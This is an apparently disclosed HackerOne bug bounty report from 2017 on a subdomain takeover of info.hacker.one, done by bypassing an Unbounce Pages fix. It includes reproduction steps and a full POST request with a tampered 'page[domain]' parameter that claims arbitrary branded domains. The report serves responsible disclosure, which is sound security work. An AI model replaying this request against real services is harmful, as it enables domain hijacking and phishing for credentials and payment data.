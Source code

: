 # Subdomain takeover #2  at info.hacker.one

## Report Details
- **Report ID**: 209004
- **URL**: https://hackerone.com/reports/209004
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-02-26T02:25:15.267Z
- **Disclosed**: 2017-04-28T07:47:28.434Z

## Reporter
- **Username**: ak1t4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

Hi team, looking the fix released from unbounce team at https://hackerone.com/reports/202767 i've been able to bypass it and takeover again the subdomain info.hacker.one with a new __Vulnerable-Endpoint__ at UnbouncePages App

**Actual Dns Entry:**

{F164154}

### Steps To Reproduce & New PoC for HackerOne

1) I have claimed the domain and placed a __new-page__ for PoC validation located under: 
Go to -> http://info.hacker.one/full-takeover/
2) You see the alert box and the subdomain takeover

{F164155}
{F164156}

-

#### [ Unbounce Pages Team Section ]

#### Reproduction Steps PoC at new __Vulnerable-Endpoint__ 

1) Login to account
2) Create a New Page under any domain
3) Go to "Edit Notes"
4) Fill with any input 
5) Intercept Request with burp or another proxy
6) Add this body params:
&page%5Bdescription%5D=test&page%5Bdomain%5D=__anydomain.com__
7) Refresh page - You see the New Claimed Domain at Url Page
{F164159}
{F164161}


[ POST REQUEST ]

POST /2235922/pages/01a8aadb-0198-4fa6-815d-1ae641f0b49e HTTP/1.1
Host: app.unbounce.com
Connection: close
Content-Length: 119
X-NewRelic-ID: XQQAUl9ADAQFV1hW
Origin: https://app.unbounce.com
X-CSRF-Token: 1FSc6oHzQZPfCrlSKHCSXqwyCRn5q7YxTbkva6wQ2oI=
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: https://app.unbounce.com/2235922/pages/01a8aadb-0198-4fa6-815d-1ae641f0b49e
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.8,fi;q=0.6,en;q=0.4
Cookie: ...

utf8=%E2%9C%93&_method=put&authenticity_token=1FSc6oHzQZPfCrlSKHCSXqwyCRn5q7YxTbkva6wQ2oI%3D&page%5Bdescription%5D=test&page%5Bdomain%5D=__anydomain.com__&page%5Bpath%5D=full-takeover


#### Enpoint vulnerable: /[account-id]/pages/[page-id] 
#### param vulnerable: page%5Bdomain%5D=anydomain.com
#### This Request update the page with the New Domain (any domain could be used and creating content into it)
#### All branded domains under unbounce app are vulnerable

I create a new Private Video PoC here for the above explained -> https://youtu.be/cRf3zkdngh0

#### Security Impact at H1:

*An attacker can utilize this domain info.hacker.one for targeting the organization by fake login hackerOne forms, or steal sensitive information of teams (credentials, credit card information, etc) 

#### Security impact at Unbounce Pages:

*An attacker can utilize this bug affecting all branded domains and customers at unbouncepages.com
and use all domains with evil purposes as stealing of sensitive information, credentials, credit card info, etc


Please let me know if more info needed or any help,

Best Regards,
@ak1t4




## Attachments
- Captura_de_pantalla_2017-02-25_a_las_22.01.18.png
- Captura_de_pantalla_2017-02-25_a_las_21.56.11.png
- Captura_de_pantalla_2017-02-25_a_las_21.56.23.png
- Captura_de_pantalla_2017-02-25_a_las_23.02.35.png
- Captura_de_pantalla_2017-02-25_a_las_23.08.03.png
